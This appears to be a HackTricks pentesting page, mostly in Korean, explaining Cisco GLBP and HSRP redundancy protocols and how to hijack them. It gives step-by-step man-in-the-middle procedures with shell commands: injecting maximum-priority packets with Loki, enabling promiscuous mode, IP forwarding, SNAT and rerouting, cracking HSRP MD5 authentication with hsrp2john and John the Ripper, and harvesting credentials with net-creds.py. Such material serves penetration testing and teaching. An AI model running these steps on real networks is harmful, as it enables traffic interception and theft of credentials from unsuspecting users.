 # GLBP & HSRP Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Hijacking Overview

### Insights into FHRP
FHRP는 여러 라우터를 단일 가상 장치로 통합하여 네트워크의 강인성을 제공하도록 설계되었습니다. 이를 통해 부하 분산 및 장애 내성이 향상됩니다. Cisco Systems는 GLBP 및 HSRP와 같은 이 제품군의 주요 프로토콜을 도입했습니다.

### GLBP Protocol Insights
Cisco의 GLBP는 TCP/IP 스택에서 작동하며, 통신을 위해 포트 3222에서 UDP를 사용합니다. GLBP 그룹의 라우터는 3초 간격으로 "hello" 패킷을 교환합니다. 라우터가 10초 동안 이러한 패킷을 전송하지 않으면 오프라인으로 간주됩니다. 그러나 이러한 타이머는 고정되어 있지 않으며 수정할 수 있습니다.

### GLBP Operations and Load Distribution
GLBP는 단일 가상 IP와 여러 가상 MAC 주소를 사용하여 라우터 간의 부하 분산을 가능하게 하여 두드러집니다. GLBP 그룹 내의 모든 라우터는 패킷 전달에 참여합니다. HSRP/VRRP와 달리 GLBP는 여러 메커니즘을 통해 진정한 부하 분산을 제공합니다:

- **Host-Dependent Load Balancing:** NAT 구성의 안정성을 위해 호스트에 대한 일관된 AVF MAC 주소 할당을 유지합니다.
- **Round-Robin Load Balancing:** 요청하는 호스트 간에 AVF MAC 주소 할당을 번갈아 가며 수행하는 기본 접근 방식입니다.
- **Weighted Round-Robin Load Balancing:** 미리 정의된 "Weight" 메트릭에 따라 부하를 분산합니다.

### Key Components and Terminologies in GLBP
- **AVG (Active Virtual Gateway):** MAC 주소를 동료 라우터에 할당하는 주요 라우터입니다.
- **AVF (Active Virtual Forwarder):** 네트워크 트래픽을 관리하도록 지정된 라우터입니다.
- **GLBP Priority:** AVG를 결정하는 메트릭으로, 기본값은 100이며 1에서 255 사이의 값을 가집니다.
- **GLBP Weight:** 라우터의 현재 부하를 반영하며, 수동으로 또는 Object Tracking을 통해 조정할 수 있습니다.
- **GLBP Virtual IP Address:** 모든 연결된 장치의 네트워크 기본 게이트웨지 역할을 합니다.

GLBP는 예약된 멀티캐스트 주소 224.0.0.102와 UDP 포트 3222를 사용하여 상호작용합니다. 라우터는 3초 간격으로 "hello" 패킷을 전송하며, 10초 동안 패킷이 누락되면 비작동으로 간주됩니다.

### GLBP Attack Mechanism
공격자는 가장 높은 우선 순위 값(255)을 가진 GLBP 패킷을 전송하여 주요 라우터가 될 수 있습니다. 이는 DoS 또는 MITM 공격으로 이어져 트래픽 가로채기 또는 리디렉션을 허용할 수 있습니다.

### Executing a GLBP Attack with Loki
[Loki](https://github.com/raizo62/loki_on_kali)는 우선 순위와 가중치를 255로 설정한 패킷을 주입하여 GLBP 공격을 수행할 수 있습니다. 공격 전 단계에서는 Wireshark와 같은 도구를 사용하여 가상 IP 주소, 인증 존재 여부 및 라우터 우선 순위 값을 수집합니다.

Attack Steps:
1. 수신 모드로 전환하고 IP 포워딩을 활성화합니다.
2. 대상 라우터를 식별하고 IP를 검색합니다.
3. Gratuitous ARP를 생성합니다.
4. AVG를 가장한 악성 GLBP 패킷을 주입합니다.
5. 공격자의 네트워크 인터페이스에 GLBP 가상 IP를 반영하여 보조 IP 주소를 할당합니다.
6. 전체 트래픽 가시성을 위해 SNAT를 구현합니다.
7. 원래 AVG 라우터를 통해 인터넷 접근을 보장하기 위해 라우팅을 조정합니다.

이 단계를 따르면 공격자는 "중간자"로 자리 잡아 네트워크 트래픽을 가로채고 분석할 수 있으며, 여기에는 암호화되지 않은 데이터나 민감한 데이터가 포함됩니다.

For demonstration, here are the required command snippets:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
모니터링 및 트래픽 가로채기는 net-creds.py 또는 유사한 도구를 사용하여 손상된 네트워크를 통해 흐르는 데이터를 캡처하고 분석할 수 있습니다.

### HSRP 하이재킹의 수동 설명 및 명령 세부정보

#### HSRP(핫 스탠바이 라우터/중복 프로토콜) 개요
HSRP는 네트워크 게이트웨이 중복을 위해 설계된 Cisco의 독점 프로토콜입니다. 여러 물리적 라우터를 단일 논리 단위로 구성하고 공유 IP 주소를 사용할 수 있습니다. 이 논리 단위는 트래픽을 관리하는 기본 라우터에 의해 관리됩니다. GLBP와 달리 HSRP는 트래픽 관리를 위해 단일 활성 라우터에 의존합니다.

#### HSRP의 역할 및 용어
- **HSRP 활성 라우터**: 트래픽 흐름을 관리하는 게이트웨이 역할을 하는 장치입니다.
- **HSRP 대기 라우터**: 활성 라우터가 실패할 경우 인계할 준비가 된 백업 라우터입니다.
- **HSRP 그룹**: 단일 탄력적인 가상 라우터를 형성하기 위해 협력하는 라우터 집합입니다.
- **HSRP MAC 주소**: HSRP 설정에서 논리 라우터에 할당된 가상 MAC 주소입니다.
- **HSRP 가상 IP 주소**: HSRP 그룹의 가상 IP 주소로, 연결된 장치의 기본 게이트웨이 역할을 합니다.

#### HSRP 버전
HSRP는 HSRPv1과 HSRPv2의 두 가지 버전이 있으며, 주로 그룹 용량, 멀티캐스트 IP 사용 및 가상 MAC 주소 구조에서 차이가 있습니다. 이 프로토콜은 서비스 정보 교환을 위해 특정 멀티캐스트 IP 주소를 사용하며, Hello 패킷은 매 3초마다 전송됩니다. 10초 간 패킷이 수신되지 않으면 라우터는 비활성으로 간주됩니다.

#### HSRP 공격 메커니즘
HSRP 공격은 최대 우선 순위 값을 주입하여 활성 라우터의 역할을 강제로 인수하는 것입니다. 이는 중간자 공격(MITM)으로 이어질 수 있습니다. 공격 전 필수 단계에는 HSRP 설정에 대한 데이터 수집이 포함되며, 이는 Wireshark를 사용하여 트래픽 분석을 통해 수행할 수 있습니다.

#### HSRP 인증 우회 단계
1. HSRP 데이터를 포함하는 네트워크 트래픽을 .pcap 파일로 저장합니다.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py를 사용하여 .pcap 파일에서 MD5 해시를 추출합니다.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper를 사용하여 MD5 해시를 크랙합니다.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**로키를 사용한 HSRP 주입 실행**

1. 로키를 실행하여 HSRP 광고를 식별합니다.
2. 네트워크 인터페이스를 프로미스큐어스 모드로 설정하고 IP 포워딩을 활성화합니다.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 로키를 사용하여 특정 라우터를 타겟으로 하고, 크랙된 HSRP 비밀번호를 입력하여 활성 라우터를 가장하기 위한 필요한 구성을 수행합니다.
4. 활성 라우터 역할을 얻은 후, 네트워크 인터페이스 및 IP 테이블을 구성하여 합법적인 트래픽을 가로챕니다.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 라우팅 테이블을 수정하여 트래픽을 이전 활성 라우터를 통해 라우팅합니다.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. net-creds.py 또는 유사한 유틸리티를 사용하여 가로챈 트래픽에서 자격 증명을 캡처합니다.
```shell
sudo python2 net-creds.py -i eth0
```

이 단계를 실행하면 공격자는 GLBP 하이재킹 절차와 유사하게 트래픽을 가로채고 조작할 수 있는 위치에 놓이게 됩니다. 이는 HSRP와 같은 중복 프로토콜의 취약성을 강조하며 강력한 보안 조치의 필요성을 나타냅니다.


## 참고문헌
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
